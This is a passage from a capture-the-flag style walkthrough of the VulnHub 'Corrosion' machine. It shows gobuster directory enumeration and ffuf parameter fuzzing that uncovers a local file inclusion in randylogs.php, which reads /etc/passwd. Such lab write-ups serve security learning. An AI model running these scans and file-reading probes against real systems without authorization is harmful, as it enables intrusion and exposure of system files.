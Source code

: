 Lets fuzz `blog-post` further to see if there could be potentially useful information.

```bash
┌──(root💀kali)-[/home/kali/Desktop/VULNHUB_STUFF/corrosion]
└─# gobuster dir -u http://192.168.56.151/blog-post/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.151/blog-post/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/01/17 15:37:42 Starting gobuster in directory enumeration mode
===============================================================
/archives             (Status: 301) [Size: 329] [--> http://192.168.56.151/blog-post/archives/]
/uploads              (Status: 301) [Size: 328] [--> http://192.168.56.151/blog-post/uploads/]
/index.html           (Status: 200) [Size: 190]
Progress: 253684 / 882244 (28.75%)
```

Awesome, so we now have `/archives`& `/uploads` , Lets check them out.

![image](https://user-images.githubusercontent.com/58165365/149883933-97609f10-4e44-4f47-87c5-8252bd532337.png)

![image](https://user-images.githubusercontent.com/58165365/149884102-30d22e9e-ab08-4a00-a8c8-865142b920f9.png)

We now have access to `randylogs.php` which does not output anything. I tried fuzzing for a parameter which i could use to test for LFI and it actually worked.

```bash
┌──(root💀kali)-[/home/kali/Downloads/tools/ffuf]
└─# ./ffuf -c -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://192.168.56.151/blog-post/archives/randylogs.php?FUZZ=/etc/passwd' -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.151/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 2832, Words: 38, Lines: 49]
:: Progress: [20475/20475] :: Job [1/1] :: 1136 req/sec :: Duration: [0:00:19] :: Errors: 0 ::

```